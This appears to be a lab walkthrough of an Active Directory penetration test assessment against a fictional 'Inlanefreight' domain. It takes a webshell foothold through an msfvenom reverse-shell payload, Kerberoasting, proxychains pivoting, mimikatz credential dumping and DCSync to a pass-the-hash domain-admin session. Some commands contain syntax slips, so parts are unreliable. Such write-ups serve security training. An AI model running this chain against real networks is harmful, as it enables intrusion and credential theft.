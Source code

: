 ## Scenario

A team member started an External Penetration Test and was moved to another urgent project before they could finish. The team member was able to find and exploit a file upload vulnerability after performing recon of the externally-facing web server. Before switching projects, our teammate left a password-protected web shell (with the credentials: `admin:My_W3bsH3ll_P@ssw0rd!`) in place for us to start from in the `/uploads` directory. As part of this assessment, our client, Inlanefreight, has authorized us to see how far we can take our foothold and is interested to see what types of high-risk issues exist within the AD environment. Leverage the web shell to gain an initial foothold in the internal network. Enumerate the Active Directory environment looking for flaws and misconfigurations to move laterally and ultimately achieve domain compromise.

---


We get an antak.aspx webshell. To upgrade this shell I created a new one with msfvenom 
```bash
msfvenom -p meterpreter/windows/reverse_tcp LHOST:10.10.15.6 LPORT:4444 -f exe -outfile shell.exe
```
To catch this shell I also started a listener
```bash
msfconsole
use multi/handler
set payload meterpreter/windows/reverse_tcp
set LHOST 10.10.15.6
run
```

Now we have a meterpreter session with the target.

To find out what account uses the `MSSQLSvc/SQL01.inlanefreight.local:1433` SPN, I used the following command
```powershell
setspn.exe -Q */*
```

The output shows the `svc_sql` user uses this specific SPN.

With PowerView we can dump the TGS hash
```powershell
Get-DomainUser -Identity svc_sql | Get-DomainSPNTicket -Format Hashcat
```
Next we can try to crack the hash with Hashcat mode 13100
It reveals the password `lucky7`.

Next we want to pivot the `MS01`. To get to know the IP address of this host, we can simply ping to `ms01`. It shows the IP address of 172.16.6.50. Because our attack host is not in the same subnet as `MS01`, we can use proxychains to pivot from the initial target.

```bash
use auxiliary/server/socks_proxy
set SRVPORT 9050
set SRVHOST 0.0.0.0
set version 4a
run
```

Now we can go back to our meterpreter session and add the routes.
```bash
meterpreter > run autoroute -s 172.16.6.0/24
```

Now we can use the following command to RPD to `MS01` and create a shared folder with tools such as mimikatz and powerview.
```bash
proxychains xfreerdp /u:svc_sql /p:lucky7 /v:172.16.6.50 /drive:SharedTools,/home/htb-ac-1473407/Desktop/Tools/
```

We use mimikatz to dump the loggon users:
```powershell
./mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```
This will dump the users that are logged in. Here we see the user `tpetty`. 

Change this key to view the password in cleartext.
```powershell
Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" | Select-Object UseLogonCredential
```

To check what Access Control List permissions `tpetty` has we use the next command:
```powershell
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid tpetty

Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```

We see from the output that `tpetty` has the `DS-Replication-Get-Changes` object type. This means she can perform a DCSync attack.

We can do this with mimikatz. First we need to run powershell as `tpetty`
```powershell
runas /netonly /user:INLANEFREIGHT\tpetty powershell
```
Now we launch mimikatz and perform the attack
```powershell
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```

The hash of the administrator is `27dedb1dab4d8545c6e1c66fba077da0`. We can use this hash to connect to DC01 with Evil-WinRM. To get the IP of DC01 we can ping again, 172.16.6.3.

We can still use the proxychains from the attack host to connect to DC01.
```bash
proxychains evil-winrm -i 172.16.6.3 -u Administrator -H 27dedb1dab4d8545c6e1c66fba077da0
```
Now we have a PowerShell session as the domain admin.